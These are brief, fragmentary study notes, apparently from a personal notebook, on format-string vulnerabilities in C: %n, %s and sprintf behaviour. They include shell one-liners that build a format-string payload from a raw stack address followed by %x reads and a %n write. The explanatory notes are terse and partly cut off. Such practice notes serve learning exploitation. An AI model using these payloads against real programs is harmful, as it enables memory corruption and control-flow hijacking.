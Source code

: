 - Frame pointer points to function callin
- `%n` -> number of char printed in printf before
- sprintf -> trying to print something as a string
- `%s` -> only print char in buffer until the first `\0`
![[Pasted image 20250818134021.png]]


```
echo $(printf "\x48\xd8\xff\xff").%x.%x.%x.%x.%x.%n > input
```

%x.%x.%x.%x.%x.%x


ffffd848



echo $(printf "\xff\xff\xd8\x48").%x.%x.%x.%x.%x.%n > input